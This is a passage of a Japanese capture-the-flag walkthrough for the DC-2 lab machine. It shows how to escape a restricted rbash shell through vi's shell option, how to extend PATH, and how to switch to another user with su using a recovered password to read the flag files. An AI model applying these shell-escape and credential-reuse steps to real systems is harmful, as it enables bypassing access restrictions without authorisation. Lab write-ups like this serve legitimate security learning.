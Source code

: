 ```sh
# 環境変数を一覧表示する
tom@DC-2:~$ export -p

> declair -x HOME="/home/tom"
...
```

```sh
# flag3.txt の中身を表示
tom@DC-2:~$ less ./flag3.txt

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

### 20 基本コマンドを実行できる環境を目指す

vi の機能をつかって rbash を乗り換えるが，その前に vi の基本機能を確認しておく
UNIX のコマンドには他の UNIX コマンドを連携を取るために，コマンド内でシェルや他のコマンドを呼び出すことができる機能を持つものがある(less, man, vi など)。
コマンドの前に`!をつけて他のコマンド 呼び出したり eg: `!ls /`また`shell` と入力することで shell を呼び出すことができる，なお vi では ex モードにて行う。また vi は set option で shell を変更することができる

```vi
: set all                        # vi のすべてのoptionをみる
: set shell                   # rbash 現在設定されているshell オプション
: set shell=/bin/sh  # shell を 変更
: shell                          # shellの呼び出し
tom@DC-2:~ $ echo $0    # 現在のshellの確認
```

環境変数 PATH に path を追加する，su コマンドが /bin もしくは/usr/bin にあることがわかっておれば /usr/bin だけを追加すれば良いしフルパスで呼び出すなら設定しなくても良い

```sh
# PATHを追加する
tom@DC-2:~ $ echo $PATH # 現在のPATHの内容
export PATH: $PATH:/usr/bin:/bin:/usr/sbin:/sbin
```

### 21 su コマンドで別のユーザーに切り替える

bash が使えるようになったので，flag3 ファイルのヒント jerry への `su` を試してみる

```sh
# jerry userにスイッチする
tom@DC-2:~ $ su - jerry
> password: adipiscing
# ユーザーを確認 whoami や echo $USERを使っても良い
jerry@DC-2:~$ id -a
> uid=1002(jerry) gid=1002(jerry) groups=1002(jerry)
```

```sh
jerry@DC-2:~$ ls
> flag4.txt
jerry@DC-2:~$ cat flag4.txt
> Good to see that you've made it this far - but you're not home yet.
> You still need to get the final flag (the only flag that really counts!!!).
> No hints here - you're on your own now.  :-)
> Go on - git outta here!!!!
```
